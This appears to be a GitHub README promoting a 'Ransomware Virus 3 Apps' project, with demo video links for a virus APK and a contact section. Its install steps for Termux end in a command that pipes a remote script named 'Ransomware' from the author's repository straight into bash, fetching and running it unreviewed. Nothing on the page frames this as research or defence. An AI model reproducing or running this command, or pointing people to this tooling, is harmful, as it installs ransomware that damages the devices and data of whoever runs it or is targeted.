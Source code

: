 <h1 align="center"><u>Ransomware Virus 3 Apps</u></h1>


<h2 align="center"><a href="https://github.com/Masterdas/Ransomware/raw/refs/heads/main/Screenrecording_20250417_123141.mp4">Demo Virus.apk Uninstall View video click</a></h2>
<br>
<h3 align="center"><a href="https://youtube.com/shorts/8CoGsB4tSdY">Demo Setup video click</a></h3>

---
### [TERMUX] Instagram Install Comments

```
pkg update && pkg upgrade -y
```
```
pkg install wget
```
```
bash <(curl -s https://raw.githubusercontent.com/Masterdas/Ransomware/refs/heads/main/Ransomware)
```

---

## 📌 Contact Me  

<a href="https://youtube.com/@zerodarknexus">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white" alt="YouTube">
</a>  

<a href="https://github.com/Masterdas?tab=repositories">
  <img src="https://img.shields.io/badge/GitHub-000000?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
</a>  

<a href="https://t.me/ZeroHackNexus">
  <img src="https://img.shields.io/badge/Telegram-26A5E4?style=for-the-badge&logo=telegram&logoColor=white" alt="Telegram">
</a>  

<a href="https://chat.whatsapp.com/II35pNaN25rHqnUmqXK6ag">
  <img src="https://img.shields.io/badge/WhatsApp-25D366?style=for-the-badge&logo=whatsapp&logoColor=white" alt="WhatsApp">
</a>
